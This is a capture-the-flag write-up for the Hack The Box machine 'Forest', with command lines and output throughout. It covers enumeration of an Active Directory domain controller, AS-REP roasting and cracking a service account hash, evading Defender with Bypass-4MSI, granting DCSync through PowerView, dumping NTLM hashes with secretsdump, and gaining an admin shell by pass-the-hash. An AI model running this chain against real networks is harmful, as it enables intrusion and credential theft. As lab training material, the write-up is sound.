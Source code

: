 #+TITLE: FOREST HTB Writeup
#+AUTHOR: MattiaCossu

* Enumeration
We begin our work with a fairly comprehensive scan.
#+BEGIN_SRC bash
  nmap -sC -sV 10.10.10.161
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-06 14:45 EST
  Nmap scan report for 10.10.10.161
  Host is up (0.046s latency).
  Not shown: 989 closed tcp ports (conn-refused)
  PORT     STATE SERVICE      VERSION
  53/tcp   open  domain       Simple DNS Plus
  88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2023-12-06 19:52:52Z)
  135/tcp  open  msrpc        Microsoft Windows RPC
  139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
  389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
  445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
  464/tcp  open  kpasswd5?
  593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
  636/tcp  open  tcpwrapped
  3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
  3269/tcp open  tcpwrapped
  Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

  Host script results:
  | smb-os-discovery: 
  |   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
  |   Computer name: FOREST
  |   NetBIOS computer name: FOREST\x00
  |   Domain name: htb.local
  |   Forest name: htb.local
  |   FQDN: FOREST.htb.local
  |_  System time: 2023-12-06T11:52:56-08:00
  | smb2-time: 
  |   date: 2023-12-06T19:52:57
  |_  start_date: 2023-12-06T19:22:19
  | smb2-security-mode: 
  |   3:1:1: 
  |_    Message signing enabled and required
  |_clock-skew: mean: 2h46m49s, deviation: 4h37m08s, median: 6m48s
  | smb-security-mode: 
  |   account_used: <blank>
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: required

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
  Nmap done: 1 IP address (1 host up) scanned in 21.07 seconds
#+END_SRC
** DNS - UDP/TCP 53
Let's go to make querry to this DNS
#+BEGIN_SRC bash
  dig  @10.10.10.161 htb.local

  ; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> @10.10.10.161 htb.local
  ; (1 server found)
  ;; global options: +cmd
  ;; Got answer:
  ;; WARNING: .local is reserved for Multicast DNS
  ;; You are currently testing what happens when an mDNS query is leaked to DNS
  ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 62514
  ;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

  ;; OPT PSEUDOSECTION:
  ; EDNS: version: 0, flags:; udp: 4000
  ; COOKIE: bbee567cd8172763 (echoed)
  ;; QUESTION SECTION:
  ;htb.local.                     IN      A

  ;; ANSWER SECTION:
  htb.local.              600     IN      A       10.10.10.161

  ;; Query time: 30 msec
  ;; SERVER: 10.10.10.161#53(10.10.10.161)
  ;; WHEN: Mon Oct 14 14:34:17 EDT 2019
  ;; MSG SIZE  rcvd: 66	     
#+END_SRC

#+BEGIN_SRC bash
  dig  @10.10.10.161 forest.htb.local

  ; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> @10.10.10.161 forest.htb.local
  ; (1 server found)
  ;; global options: +cmd
  ;; Got answer:
  ;; WARNING: .local is reserved for Multicast DNS
  ;; You are currently testing what happens when an mDNS query is leaked to DNS
  ;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 12842
  ;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

  ;; OPT PSEUDOSECTION:
  ; EDNS: version: 0, flags:; udp: 4000
  ; COOKIE: ca9fa59dce2451be (echoed)
  ;; QUESTION SECTION:
  ;forest.htb.local.              IN      A

  ;; ANSWER SECTION:
  forest.htb.local.       3600    IN      A       10.10.10.161

  ;; Query time: 150 msec
  ;; SERVER: 10.10.10.161#53(10.10.10.161)
  ;; WHEN: Mon Oct 14 14:35:19 EDT 2019
  ;; MSG SIZE  rcvd: 73	     
#+END_SRC
We can resolve htb.local and forest.htb.local from this DNS server

But it doesn’t let us do a zone transfer:
#+BEGIN_SRC bash
  dig axfr  @10.10.10.161 htb.local

  ; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> axfr @10.10.10.161 htb.local
  ; (1 server found)
  ;; global options: +cmd
     ; Transfer failed.
#+END_SRC

** SMB - TCP 445
We try to enter as Guest in the smb
#+BEGIN_SRC bash
  smbmap -H 10.10.10.161
  [+] Finding open SMB ports....
  [+] User SMB session establishd on 10.10.10.161...
  [+] IP: 10.10.10.161:445        Name: 10.10.10.161                                      
	  Disk                                                    Permissions
	  ----                                                    -----------
	  [!] Access Denied
#+END_SRC

#+BEGIN_SRC bash
   smbmap -H 10.10.10.161 -u Guest
  [+] Finding open SMB ports....
  [!] Authentication error occured
  [!] SMB SessionError: STATUS_LOGON_FAILURE(The attempted logon is invalid. This is either due to a bad username or authentication information.)
  [!] Authentication error on 10.10.10.161
#+END_SRC

#+BEGIN_SRC bash
  smbclient -N -L //10.10.10.161
  Anonymous login successful

	  Sharename       Type      Comment
	  ---------       ----      -------
  smb1cli_req_writev_submit: called for dialect[SMB3_11] server[10.10.10.161]
  Error returning browse list: NT_STATUS_REVISION_MISMATCH
  Reconnecting with SMB1 for workgroup listing.
  do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
  Failed to connect with SMB1 -- no workgroup available
#+END_SRC

** RPC
We can try to check over RPC to enumerate users.

In first we have to login with anonymus.
#+BEGIN_SRC bash
  rpcclient -U "" -N 10.10.10.161
  rpcclient $>
#+END_SRC

we can now enumerate the user with ~enumdomusers~.
#+BEGIN_SRC bash
  rpcclient $> enumdomusers              
  user:[Administrator] rid:[0x1f4]       
  user:[Guest] rid:[0x1f5]               
  user:[krbtgt] rid:[0x1f6]              
  user:[DefaultAccount] rid:[0x1f7]      
  user:[$331000-VK4ADACQNUCA] rid:[0x463]
  user:[SM_2c8eef0a09b545acb] rid:[0x464]
  user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
  user:[SM_75a538d3025e4db9a] rid:[0x466]
  user:[SM_681f53d4942840e18] rid:[0x467]
  user:[SM_1b41c9286325456bb] rid:[0x468]
  user:[SM_9b69f1b9d2cc45549] rid:[0x469]
  user:[SM_7c96b981967141ebb] rid:[0x46a]
  user:[SM_c75ee099d0a64c91b] rid:[0x46b]
  user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
  user:[HealthMailboxc3d7722] rid:[0x46e]
  user:[HealthMailboxfc9daad] rid:[0x46f]
  user:[HealthMailboxc0a90c9] rid:[0x470]
  user:[HealthMailbox670628e] rid:[0x471]
  user:[HealthMailbox968e74d] rid:[0x472]
  user:[HealthMailbox6ded678] rid:[0x473]
  user:[HealthMailbox83d6781] rid:[0x474]
  user:[HealthMailboxfd87238] rid:[0x475]
  user:[HealthMailboxb01ac64] rid:[0x476]
  user:[HealthMailbox7108a4e] rid:[0x477]
  user:[HealthMailbox0659cc1] rid:[0x478]
  user:[sebastien] rid:[0x479]
  user:[lucinda] rid:[0x47a]
  user:[svc-alfresco] rid:[0x47b]  
  user:[andy] rid:[0x47e]                
  user:[mark] rid:[0x47f]                
  user:[santi] rid:[0x480]
#+END_SRC

we can list the groups as well.
#+BEGIN_SRC bash
  rpcclient $> enumdomgroups
  group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]          
  group:[Domain Admins] rid:[0x200]
  group:[Domain Users] rid:[0x201]
  group:[Domain Guests] rid:[0x202]
  group:[Domain Computers] rid:[0x203]
  group:[Domain Controllers] rid:[0x204]
  group:[Schema Admins] rid:[0x206]
  group:[Enterprise Admins] rid:[0x207]
  group:[Group Policy Creator Owners] rid:[0x208]
  group:[Read-only Domain Controllers] rid:[0x209]
  group:[Cloneable Domain Controllers] rid:[0x20a]
  group:[Protected Users] rid:[0x20d]
  group:[Key Admins] rid:[0x20e]            
  group:[Enterprise Key Admins] rid:[0x20f]
  group:[DnsUpdateProxy] rid:[0x44e]
  group:[Organization Management] rid:[0x450]
  group:[Recipient Management] rid:[0x451]                 
  group:[View-Only Organization Management] rid:[0x452]
  group:[Public Folder Management] rid:[0x453]
  group:[UM Management] rid:[0x454]
  group:[Help Desk] rid:[0x455]
  group:[Records Management] rid:[0x456]
  group:[Discovery Management] rid:[0x457]
  group:[Server Management] rid:[0x458]
  group:[Delegated Setup] rid:[0x459]
  group:[Hygiene Management] rid:[0x45a]
  group:[Compliance Management] rid:[0x45b]
  group:[Security Reader] rid:[0x45c]
  group:[Security Administrator] rid:[0x45d]
  group:[Exchange Servers] rid:[0x45e]
  group:[Exchange Trusted Subsystem] rid:[0x45f]
  group:[Managed Availability Servers] rid:[0x460]
  group:[Exchange Windows Permissions] rid:[0x461]
  group:[ExchangeLegacyInterop] rid:[0x462]
  group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
  group:[Service Accounts] rid:[0x47c]
  group:[Privileged IT Accounts] rid:[0x47d]
  group:[test] rid:[0x13ed]
#+END_SRC

We can also look at a group for it’s members. For example, the Domain Admins group has one member, rid 0x1f4:
#+BEGIN_SRC bash
  rpcclient $> querygroup 0x200          
	  Group Name:     Domain Admins     
	  Description:    Designated administrators of the domain
	  Group Attribute:7              
	  Num Members:1                  
  rpcclient $> querygroupmem 0x200
  rid:[0x1f4] attr:[0x7]
#+END_SRC

That’s the Administrator account:
#+BEGIN_SRC bash
  rpcclient $> queryuser 0x1f4            
	  User Name   :   Administrator
	  Full Name   :   Administrator
	  Home Drive  :   
	  Dir Drive   :      
	  Profile Path:      
	  Logon Script:
	  Description :   Built-in account for administering the computer/domain
	  Workstations:
	  Comment     :
	  Remote Dial :
	  Logon Time               :      Mon, 07 Oct 2019 06:57:07 EDT
	  Logoff Time              :      Wed, 31 Dec 1969 19:00:00 EST
	  Kickoff Time             :      Wed, 31 Dec 1969 19:00:00 EST
	  Password last set Time   :      Wed, 18 Sep 2019 13:09:08 EDT
	  Password can change Time :      Thu, 19 Sep 2019 13:09:08 EDT
	  Password must change Time:      Wed, 30 Oct 2019 13:09:08 EDT
	  unknown_2[0..31]...
	  user_rid :      0x1f4
	  group_rid:      0x201
	  acb_info :      0x00000010
	  fields_present: 0x00ffffff
	  logon_divs:     168
	  bad_password_count:     0x00000000
	  logon_count:    0x00000031
	  padding1[0..7]...
	  logon_hrs[0..21]...
#+END_SRC

Other way for do that consists to lanch ~unum4linux~ for try to get valid list of *User*.
#+BEGIN_SRC bash
enum4linux 10.10.10.161
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Wed Dec  6 15:06:30 2023

 =========================================( Target Information )=========================================
                                                                                                                                                                                                                         
Target ........... 10.10.10.161                                                                                                                                                                                          
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


 ============================( Enumerating Workgroup/Domain on 10.10.10.161 )============================
                                                                                                                                                                                                                         
                                                                                                                                                                                                                         
[E] Can't find workgroup/domain                                                                                                                                                                                          
                                                                                                                                                                                                                         
                                                                                                                                                                                                                         

 ================================( Nbtstat Information for 10.10.10.161 )================================
                                                                                                                                                                                                                         
Looking up status of 10.10.10.161                                                                                                                                                                                        
No reply from 10.10.10.161

 ===================================( Session Check on 10.10.10.161 )===================================
                                                                                                                                                                                                                         
                                                                                                                                                                                                                         
[+] Server 10.10.10.161 allows sessions using username '', password ''                                                                                                                                                   
                                                                                                                                                                                                                         
                                                                                                                                                                                                                         
 ================================( Getting domain SID for 10.10.10.161 )================================
                                                                                                                                                                                                                         
Domain Name: HTB                                                                                                                                                                                                         
Domain Sid: S-1-5-21-3072663084-364016917-1341370565

[+] Host is part of a domain (not a workgroup)                                                                                                                                                                           
                                                                                                                                                                                                                         
                                                                                                                                                                                                                         
 ===================================( OS information on 10.10.10.161 )===================================
                                                                                                                                                                                                                         
                                                                                                                                                                                                                         
[E] Can't get OS info with smbclient                                                                                                                                                                                     
                                                                                                                                                                                                                         
                                                                                                                                                                                                                         
[+] Got OS info for 10.10.10.161 from srvinfo:                                                                                                                                                                           
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED                                                                                                                                                   


 =======================================( Users on 10.10.10.161 )=======================================
                                                                                                                                                                                                                         
index: 0x2137 RID: 0x463 acb: 0x00020015 Account: $331000-VK4ADACQNUCA  Name: (null)    Desc: (null)                                                                                                                     
index: 0xfbc RID: 0x1f4 acb: 0x00000010 Account: Administrator  Name: Administrator     Desc: Built-in account for administering the computer/domain
index: 0x2369 RID: 0x47e acb: 0x00000210 Account: andy  Name: Andy Hislip       Desc: (null)
index: 0xfbe RID: 0x1f7 acb: 0x00000215 Account: DefaultAccount Name: (null)    Desc: A user account managed by the system.
index: 0xfbd RID: 0x1f5 acb: 0x00000215 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0x2352 RID: 0x478 acb: 0x00000210 Account: HealthMailbox0659cc1  Name: HealthMailbox-EXCH01-010  Desc: (null)
index: 0x234b RID: 0x471 acb: 0x00000210 Account: HealthMailbox670628e  Name: HealthMailbox-EXCH01-003  Desc: (null)
index: 0x234d RID: 0x473 acb: 0x00000210 Account: HealthMailbox6ded678  Name: HealthMailbox-EXCH01-005  Desc: (null)
index: 0x2351 RID: 0x477 acb: 0x00000210 Account: HealthMailbox7108a4e  Name: HealthMailbox-EXCH01-009  Desc: (null)
index: 0x234e RID: 0x474 acb: 0x00000210 Account: HealthMailbox83d6781  Name: HealthMailbox-EXCH01-006  Desc: (null)
index: 0x234c RID: 0x472 acb: 0x00000210 Account: HealthMailbox968e74d  Name: HealthMailbox-EXCH01-004  Desc: (null)
index: 0x2350 RID: 0x476 acb: 0x00000210 Account: HealthMailboxb01ac64  Name: HealthMailbox-EXCH01-008  Desc: (null)
index: 0x234a RID: 0x470 acb: 0x00000210 Account: HealthMailboxc0a90c9  Name: HealthMailbox-EXCH01-002  Desc: (null)
index: 0x2348 RID: 0x46e acb: 0x00000210 Account: HealthMailboxc3d7722  Name: HealthMailbox-EXCH01-Mailbox-Database-1118319013  Desc: (null)
index: 0x2349 RID: 0x46f acb: 0x00000210 Account: HealthMailboxfc9daad  Name: HealthMailbox-EXCH01-001  Desc: (null)
index: 0x234f RID: 0x475 acb: 0x00000210 Account: HealthMailboxfd87238  Name: HealthMailbox-EXCH01-007  Desc: (null)
index: 0x2372 RID: 0x2581 acb: 0x00000010 Account: john Name: (null)    Desc: (null)
index: 0xff4 RID: 0x1f6 acb: 0x00000011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x2360 RID: 0x47a acb: 0x00000210 Account: lucinda       Name: Lucinda Berger    Desc: (null)
index: 0x236a RID: 0x47f acb: 0x00000210 Account: mark  Name: Mark Brandt       Desc: (null)
index: 0x236b RID: 0x480 acb: 0x00000210 Account: santi Name: Santi Rodriguez   Desc: (null)
index: 0x235c RID: 0x479 acb: 0x00000210 Account: sebastien     Name: Sebastien Caron   Desc: (null)
index: 0x215a RID: 0x468 acb: 0x00020011 Account: SM_1b41c9286325456bb  Name: Microsoft Exchange Migration      Desc: (null)
index: 0x2161 RID: 0x46c acb: 0x00020011 Account: SM_1ffab36a2f5f479cb  Name: SystemMailbox{8cc370d3-822a-4ab8-a926-bb94bd0641a9}       Desc: (null)
index: 0x2156 RID: 0x464 acb: 0x00020011 Account: SM_2c8eef0a09b545acb  Name: Microsoft Exchange Approval Assistant     Desc: (null)
index: 0x2159 RID: 0x467 acb: 0x00020011 Account: SM_681f53d4942840e18  Name: Discovery Search Mailbox  Desc: (null)
index: 0x2158 RID: 0x466 acb: 0x00020011 Account: SM_75a538d3025e4db9a  Name: Microsoft Exchange        Desc: (null)
index: 0x215c RID: 0x46a acb: 0x00020011 Account: SM_7c96b981967141ebb  Name: E4E Encryption Store - Active     Desc: (null)
index: 0x215b RID: 0x469 acb: 0x00020011 Account: SM_9b69f1b9d2cc45549  Name: Microsoft Exchange Federation Mailbox     Desc: (null)
index: 0x215d RID: 0x46b acb: 0x00020011 Account: SM_c75ee099d0a64c91b  Name: Microsoft Exchange        Desc: (null)
index: 0x2157 RID: 0x465 acb: 0x00020011 Account: SM_ca8c2ed5bdab4dc9b  Name: Microsoft Exchange        Desc: (null)
index: 0x2365 RID: 0x47b acb: 0x00010210 Account: svc-alfresco  Name: svc-alfresco      Desc: (null)

user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
user:[john] rid:[0x2581]

 =================================( Share Enumeration on 10.10.10.161 )=================================
                                                                                                                                                                                                                         
do_connect: Connection to 10.10.10.161 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)                                                                                                                                  
<STEP>
#+END_SRC
Retrieved!!
We have just find an interesting user call ~svc-alfresco~.

Now with impaket let's try to get TGT token of user.
#+BEGIN_SRC bash
  GetNPUsers.py htb.local/svc-alfresco -dc-ip 10.10.10.161
  Impacket v0.11.0 - Copyright 2023 Fortra

  Password:
  [*] Cannot authenticate svc-alfresco, getting its TGT
  $krb5asrep$23$svc-alfresco@HTB.LOCAL:8f211<redacted>
#+END_SRC
Retrived too!!

* Abusing svc-alfresco
We have couch the TGT token of this user so let's try to crack it with us best frind hashcat.
#+BEGIN_SRC
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt --force
...[snip]...
$krb5asrep$23$svc-alfresco@HTB:<redacted>:<redacted>
...[snip]...
#+END_SRC
Password taken!!

Now all we have to do is to enter.
#+BEGIN_SRC bash
  evil-winrm -i 10.10.10.161 -u svc-alfresco -p <redacted>
#+END_SRC

From here We can grab user.txt.
#+BEGIN_SRC bash
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
#+END_SRC
* Privesc to Administrator
First we create a docker bloodhound environment
#+BEGIN_SRC
curl -o docker-compose.yml https://raw.githubusercontent.com/SpecterOps/bloodhound/main/examples/docker-compose/docker-compose.yml && docker-compose -f docker-compose.yml up
#+END_SRC

Once configured and downloaded sharphound all we have to do is upload it to the machine.
#+BEGIN_SRC bash
  ,*Evil-WinRM* PS C:\Users\svc-alfresco> upload ../../Tools/SharpHound.exe ./
                                        
  Info: Uploading /home/kali/CTF/HTB/../../Tools/SharpHound.exe to C:\Users\svc-alfresco\
                                        
  Data: 1395368 bytes of 1395368 bytes copied
                                        
  Info: Upload successful!
#+END_SRC

And run it.
#+BEGIN_SRC bash
  ,*Evil-WinRM* PS C:\Users\svc-alfresco> ./SharpHound.exe
  2023-12-06T12:27:53.1805948-08:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
  2023-12-06T12:27:53.6649703-08:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
  2023-12-06T12:27:53.7899651-08:00|INFORMATION|Initializing SharpHound at 12:27 PM on 12/6/2023
  2023-12-06T12:27:54.2587185-08:00|INFORMATION|[CommonLib LDAPUtils]Found usable Domain Controller for htb.local : FOREST.htb.local
  2023-12-06T12:27:54.3993665-08:00|INFORMATION|Flags: Group, LocalAdmin, Session, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
  2023-12-06T12:27:55.0712426-08:00|INFORMATION|Beginning LDAP search for htb.local
  2023-12-06T12:27:55.2274778-08:00|INFORMATION|Producer has finished, closing LDAP channel
  2023-12-06T12:27:55.2274778-08:00|INFORMATION|LDAP channel closed, waiting for consumers
  2023-12-06T12:28:25.9307033-08:00|INFORMATION|Status: 0 objects finished (+0 0)/s -- Using 38 MB RAM
  2023-12-06T12:28:53.4932225-08:00|INFORMATION|Consumers finished, closing output channel
  Closing writers
  2023-12-06T12:28:53.5401294-08:00|INFORMATION|Output channel closed, waiting for output task to complete
  2023-12-06T12:28:53.6339737-08:00|INFORMATION|Status: 162 objects finished (+162 2.793103)/s -- Using 46 MB RAM
  2023-12-06T12:28:53.6339737-08:00|INFORMATION|Enumeration finished in 00:00:58.5727868
  2023-12-06T12:28:53.7119877-08:00|INFORMATION|Saving cache with stats: 119 ID to type mappings.
   118 name to SID mappings.
   0 machine sid mappings.
   2 sid to domain mappings.
   0 global catalog mappings.
   2023-12-06T12:28:53.7276115-08:00|INFORMATION|SharpHound Enumeration Completed at 12:28 PM on 12/6/2023! Happy Graphing!
#+END_SRC

Let's download them from the victim and uplod them on bloodhound.

We have a nice root to follow.
[[./pics/route.png]]

let's follow the suggested commands and see where we get to.

One of the paths shows that the Exchange Windows Permissions group has WriteDacl
privileges on the Domain. The WriteDACL privilege gives a user the ability to add ACLs to an
object. This means that we can add a user to this group and give them DCSync privileges.
Go back to the WinRM shell and add a new user to Exchange Windows Permissions as well as
the Remote Management Users group.

#+BEGIN_SRC bash
  ,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user john testtest1 /add /domain
  The command completed successfully.
#+END_SRC

#+BEGIN_SRC bash
  ,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" john /add
  The command completed successfully.
#+END_SRC

#+BEGIN_SRC bash
  ,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net localgroup "Remote Management Users" john /add
  The command completed successfully.
#+END_SRC

The commands above create a new user named john and add him to the required groups. Next,
download the [[https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1][PowerView]] script and import it into the current session.
#+BEGIN_SRC bash
  ,*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> upload ../../Tools/PowerView.ps1 ../
                                        
  Info: Uploading /home/kali/CTF/HTB/../../Tools/PowerView.ps1 to C:\Users\svc-alfresco\Documents\..\
                                        
  Data: 1027036 bytes of 1027036 bytes copied
                                        
  Info: Upload successful!
#+END_SRC

#+BEGIN_SRC bash
  ,*Evil-WinRM* PS C:\Users\svc-alfresco> Bypass-4MSI
                                        
  Info: Patching 4MSI, please be patient...
                                        
  [+] Success!
#+END_SRC

The Bypass-4MSI command is used to evade defender before importing the script. Next, we can
use the Add-ObjectACL with john's credentials, and give him DCSync rights.

#+BEGIN_SRC bash
  ,*Evil-WinRM* PS C:\Users\svc-alfresco> . ./PowerView.ps1
#+END_SRC

#+BEGIN_SRC bash
  .*Evil-WinRM* PS C:\Users\svc-alfresco> $pass = convertto-securestring 'testtest1' -asplain -force
  ,*Evil-WinRM* PS C:\Users\svc-alfresco> $cred = new-object system.management.automation.pscredential('htb\john', $pass)
  ,*Evil-WinRM* PS C:\Users\svc-alfresco> Add-ObjectACL -PrincipalIdentity john -Credential $cred -Rights DCSync
#+END_SRC

The secretsdump script from Impacket can now be run as john, and used to reveal the NTLM
hashes for all domain users.
#+BEGIN_SRC bash
  secretsdump.py htb/john@10.10.10.161
  Impacket v0.11.0 - Copyright 2023 Fortra

  Password:
  [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
  [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
  [*] Using the DRSUAPI method to get NTDS.DIT secrets
  htb.local\Administrator:500:<redacted>:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
#+END_SRC

The obtained Domain Admin hash can be used to login via psexec.
#+BEGIN_SRC bash
  psexec.py administrator@10.10.10.161 -hashes <redacted>
  Impacket v0.11.0 - Copyright 2023 Fortra

  [*] Requesting shares on 10.10.10.161.....
  [*] Found writable share ADMIN$
  [*] Uploading file CnpvMmtm.exe
  [*] Opening SVCManager on 10.10.10.161.....
  [*] Creating service rISg on 10.10.10.161.....
  [*] Starting service rISg.....
  [!] Press help for extra shell commands
  Microsoft Windows [Version 10.0.14393]
  (c) 2016 Microsoft Corporation. All rights reserved.

  C:\Windows\system32> dir \users\administrators\desktop
  The system cannot find the file specified.

  C:\Windows\system32> dir \users\administrator\desktop
   Volume in drive C has no label.
   Volume Serial Number is 61F2-A88F

   Directory of C:\users\administrator\desktop

  09/23/2019  01:15 PM    <DIR>          .
  09/23/2019  01:15 PM    <DIR>          ..
  12/06/2023  11:22 AM                34 root.txt
		 1 File(s)             34 bytes
		 2 Dir(s)  10,459,901,952 bytes free
#+END_SRC
